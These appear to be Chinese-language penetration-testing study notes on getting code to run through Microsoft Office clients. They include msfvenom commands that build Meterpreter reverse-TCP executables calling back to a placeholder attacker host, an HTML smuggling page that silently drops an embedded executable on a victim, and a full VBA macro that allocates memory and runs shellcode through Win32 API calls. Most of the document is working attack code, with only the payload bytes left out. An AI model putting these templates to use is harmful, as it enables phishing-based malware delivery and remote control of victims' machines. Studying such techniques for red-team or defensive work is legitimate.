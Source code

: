 # Microsoft Office Client Side Code Executtion
## Staged vs Non-staged Payloads
一般來說平常使用相關 Payload 框架，都會搭配可以使用弱點，也就是說弱點是拿來突破防禦機制，Payload可以說是維持存取的一種手段，維持存取的類型Payload分為
### 以下meterpreter為例:
#### Non-staged Payload (無階段性)
直接在記憶體中呼叫 執行完整的Payload
通常送過去的Payload 大小較大
Ex: windows/meterpreter_reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o non-staged.exe
```
#### Staged Payload (有階段性)
只送一小段 Payload 做接應
較穩定，且有其他功能
Ex: windows/meterpreter/reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o staged.exe
```
## HTML Smuggling 
想要在受害端機器上下載並執行相關的惡意程式，攻擊者會經常使用更謹慎的投放的方式。攻擊者可能將鏈接嵌入到電子郵件，當受害者閱讀電子郵件並存取網頁時，網頁自動下載惡意程式，這種行為就稱為HTML Smuggling
### Example
```
<html><body><script>	
function base64ToArrayBuffer(base64) { var binary_string = window.atob(base64); var len = binary_string.length; var bytes = new Uint8Array( len ); for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } return bytes.buffer;}
var file = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAA... (產生的base64 )
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'staged.exe'; var a = document.createElement('a');
document.body.appendChild(a); a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url; a.download = fileName; a.click();
window.URL.revokeObjectURL(url);
</script></body></html>
```
## Executing Shellcode in Word
### Calling Win32 APIs from VBA
- C language
`BOOL GetUserNameA(LPSTR lpBuffer,LPDWORD pcbBuffer );`
- VBA Invoke
`Private Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long`
##### https://www.pinvoke.net/default.aspx/advapi32.getusername
##### EXAMPLE
```
Sub MyMacro()
Dim res As Long
Dim MyBuff As String * 256
Dim MySize As Long
Dim strlen As Long
MySize = 256
res = GetUserName(MyBuff, MySize)
strlen = InStr(1, MyBuff, vbNullChar) - 1
MsgBox Left$(MyBuff, strlen)
End Sub
```
### VBA Shellcode Runner
#### Setting Memory Page Parameter
```
Public Enum protectFlags
PAGE_NOACCESS = &H1
PAGE_READONLY = &H2
PAGE_READWRITE = &H4
PAGE_WRITECOPY = &H8
PAGE_EXECUTE = &H10
PAGE_EXECUTE_READ = &H20
PAGE_EXECUTE_READWRITE = &H40
PAGE_EXECUTE_WRITECOPY = &H80
PAGE_GUARD = &H100
PAGE_NOCACHE = &H200
PAGE_WRITECOMBINE = &H400
End Enum
```
#### VirtualAlloc
- C language
`LPVOID VirtualAlloc( LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect );`
-  VBA Invoke
`Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr`
#### RtlMoveMemory
-  C language
`VOID RtlMoveMemory(VOID UNALIGNED *Destination,VOID UNALIGNED *Source,SIZE_T Length);`
-  VBA Invoke
`Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr`
#### VirtualProtect
-  C language
`BOOL VirtualProtect(LPVOID lpAddress,SIZE_T dwSize,DWORD  flNewProtect,PDWORD lpflOldProtect);`
-  VBA Invoke
`Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As LongPtr, ByVal dwSize As LongPtr, ByVal flNewProtect As LongPtr, lpflOldProtect As LongPtr) As LongPtr`
#### CreateThread
-  C language
`HANDLE CreateThread(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);`
-  VBA Invoke
`Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr`
#### VBA EXMAPLE CODE
```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "KERNEL32" (ByVal memAddress As LongPtr, ByVal lengthInBytes As LongPtr, ByVal newProtect As protectFlags, ByRef outOldProtect As protectFlags) As Long
Public Enum protectFlags
    PAGE_NOACCESS = &H1
    PAGE_READONLY = &H2
    PAGE_READWRITE = &H4
    PAGE_WRITECOPY = &H8
    PAGE_EXECUTE = &H10
    PAGE_EXECUTE_READ = &H20
    PAGE_EXECUTE_READWRITE = &H40
    PAGE_EXECUTE_WRITECOPY = &H80
    PAGE_GUARD = &H100
    PAGE_NOCACHE = &H200
    PAGE_WRITECOMBINE = &H400
End Enum

Sub MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

Dim originalProtection As protectFlags
Dim vpresult As Long


buf = Array(.......)

addr = VirtualAlloc(0, UBound(buf), &H3000, PAGE_READWRITE)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

vpresult = VirtualProtect(addr, 3, PAGE_EXECUTE_READ, originalProtection)
res = CreateThread(0, 0, addr, 0, 0, 0)

End Sub
```
